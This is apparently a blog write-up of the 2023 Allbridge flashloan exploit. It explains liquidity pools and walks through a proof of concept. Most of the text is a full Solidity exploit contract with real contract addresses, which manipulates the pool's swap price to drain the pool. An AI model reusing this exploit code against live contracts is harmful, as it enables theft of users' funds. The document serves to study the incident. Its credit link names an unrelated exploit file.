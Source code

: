 # Allbridge


## What's Allbridge?
Allbridge is a leading cross-chain provider, specializing in integrating EVM with non-EVM blockchains.
Their mission is to make the blockchain world borderless by providing an 
infrastructure to freely move assets between various networks


## Amount stolen
$550k USD

2-04-2023

## Vulnerability
flashloan attack


## Analysis
The root cause appears to be the manipulation of the pool's swap price.
The actor plays dual roles of acting as LP and swapper to manipulate the price and then drain the pool funds.


## whats a pool?

Liquidity pools allow users to trade digital assets on decentralized exchanges 
within the decentralized finance (DeFi) ecosystem,

The assets held in a liquidity pool are locked in place by a smart
contract and are added to the pool by liquidity providers. 

In most cases, providers add an equal value of two tokens to a 
pool to create a market, which is similar to trading pairs on traditional exchanges. 

Market participants that provide liquidity (contribute crypto assets) to a liquidity pool will earn trading fees as 
a reward for the trades executed within the pool. 

# proof of concept (PoC) 


 - We start with a flashloan $7.5M of BUSD `pancakeSwap.swap(0, 7_500_000e18, address(this), "Test");`


During that flashloan we execute the following:

 - 2 million of 7.5 will be swapped for $2M of $BSC-USD in pool_0x312B
```solidity
        BUSD.approve(address(pool_0x312B), type(uint256).max);
        BSC_USD.approve(address(pool_0x312B), type(uint256).max);
        pool_0x312B.swap(address(BUSD), address(BSC_USD), 2_003_300e18, 1, address(this), block.timestamp + 100 seconds);
```


Then deposits $5M BUSD into pool 0x179a

```solidity
        BUSD.approve(address(pool_0x179a), type(uint256).max);
        pool_0x179a.deposit(5_000_000e18);
```

Swap BUSD to BSC_USD

```solidity
          pool_0x312B.swap(address(BUSD), address(BSC_USD), 496_700e18, 1, address(this), block.timestamp + 100 seconds);
```

Deposit $2 mil into pool_0xb19c

```solidity
        BSC_USD.approve(address(pool_0xb19c), type(uint256).max);
        pool_0xb19c.deposit(2_000_000e18);
```

The attacker then swaps $500K BSC-USD for $BUSD 
        in Allbridge's Bridge contract, resulting in a high 
        dividend for the previous liquidity deposit.



```solidity
   bytes32 bsc_usd = 0x00000000000000000000000055d398326f99059ff775485246999027b3197955;
        bytes32 busd = 0x000000000000000000000000e9e7cea3dedca5984780bafc599bd69add087d56;

        uint256 BSC_USD_bal = BSC_USD.balanceOf(address(this));
        bridge.swap(BSC_USD_bal, bsc_usd, busd, address(this));
```

       The BUSD liquidity in 0x179a is then removed, 
        at which point the liquidity balance within 
        the 0x179a pool is broken.

```solidity
          pool_0x179a.withdraw(4_830_262_616);
```
 
  The attacker was then able to swap out $790,000 
        of BSC-USD from Bridge using only $40,000 of BUSD.
        

```solidity
           bridge.swap(40_000e18, busd, bsc_usd, address(this));
```

Withdraw from pool_0xb19c
 
```solidity
        pool_0xb19c.withdraw(1_993_728_530);
```


Swap BSC_USD to BUSD in pool_0x312B

```solidity
        BSC_USD_bal = BSC_USD.balanceOf(address(this));
        pool_0x312B.swap(address(BSC_USD), address(BUSD), BSC_USD_bal, 1, address(this), block.timestamp + 100 seconds);
```


Repay flashloan


 ```solidity
        BUSD.transfer(address(pancakeSwap), 7_522_500e18);
```

Transfer loot to attacker


```solidity
        BUSD.transfer(tx.origin, BUSD.balanceOf(address(this)));
```


```solidity
    console.log("hacker BUSD bal after attack is        ", BUSD.balanceOf(tx.origin));
```


```solidity
   contract Exploit {
    IPancakePair pancakeSwap = IPancakePair(0x7EFaEf62fDdCCa950418312c6C91Aef321375A00);
    IERC20 BUSD = IERC20(0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56);
    IERC20 BSC_USD = IERC20(0x55d398326f99059fF775485246999027B3197955);
    IPool pool_0x312B = IPool(0x312Bc7eAAF93f1C60Dc5AfC115FcCDE161055fb0);
    IPool2 pool_0x179a = IPool2(0x179aaD597399B9ae078acFE2B746C09117799ca0);
    IPool2 pool_0xb19c = IPool2(0xB19Cd6AB3890f18B662904fd7a40C003703d2554);
    IBridge bridge = IBridge(0x7E6c2522fEE4E74A0182B9C6159048361BC3260A);

    function run() external {
        console.log("hacker BUSD bal before attack is       ", BUSD.balanceOf(tx.origin));

        // The attacker flashloans $7.5M of BUSD
        pancakeSwap.swap(0, 7_500_000e18, address(this), "Gimme da loot");
    }

    function pancakeCall(address sender, uint256 amount0, uint256 amount1, bytes calldata data) external {
        // Swaps $2M BUSD for $2M $BSC-USD in pool_0x312B
        BUSD.approve(address(pool_0x312B), type(uint256).max);
        BSC_USD.approve(address(pool_0x312B), type(uint256).max);

        pool_0x312B.swap(address(BUSD), address(BSC_USD), 2_003_300e18, 1, address(this), block.timestamp + 100 seconds);

        // Then deposits $5M BUSD into pool 0x179a
        BUSD.approve(address(pool_0x179a), type(uint256).max);
        pool_0x179a.deposit(5_000_000e18);

        // Swap BUSD to BSC_USD
        pool_0x312B.swap(address(BUSD), address(BSC_USD), 496_700e18, 1, address(this), block.timestamp + 100 seconds);

        // Deposit $2 mil into pool_0xb19c
        BSC_USD.approve(address(pool_0xb19c), type(uint256).max);
        pool_0xb19c.deposit(2_000_000e18);

        /*
         The attacker then swaps $500K BSC-USD for $BUSD 
        in Allbridge's Bridge contract, resulting in a high 
        dividend for the previous liquidity deposit.
        */

        bytes32 bsc_usd = 0x00000000000000000000000055d398326f99059ff775485246999027b3197955;
        bytes32 busd = 0x000000000000000000000000e9e7cea3dedca5984780bafc599bd69add087d56;

        uint256 BSC_USD_bal = BSC_USD.balanceOf(address(this));
        bridge.swap(BSC_USD_bal, bsc_usd, busd, address(this));

        /*
         The BUSD liquidity in 0x179a is then removed, 
        at which point the liquidity balance within 
        the 0x179a pool is broken.
        */

        pool_0x179a.withdraw(4_830_262_616);

        /*
         The attacker was then able to swap out $790,000 
        of BSC-USD from Bridge using only $40,000 of BUSD.
        */

        bridge.swap(40_000e18, busd, bsc_usd, address(this));

        // Withdraw from pool_0xb19c
        pool_0xb19c.withdraw(1_993_728_530);

        // Swap BSC_USD to BUSD in pool_0x312B
        BSC_USD_bal = BSC_USD.balanceOf(address(this));
        pool_0x312B.swap(address(BSC_USD), address(BUSD), BSC_USD_bal, 1, address(this), block.timestamp + 100 seconds);

        // Repay flashloan
        BUSD.transfer(address(pancakeSwap), 7_522_500e18);

        // Transfer loot to attacker
        BUSD.transfer(tx.origin, BUSD.balanceOf(address(this)));

        console.log("hacker BUSD bal after attack is        ", BUSD.balanceOf(tx.origin));
    }
}
```


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
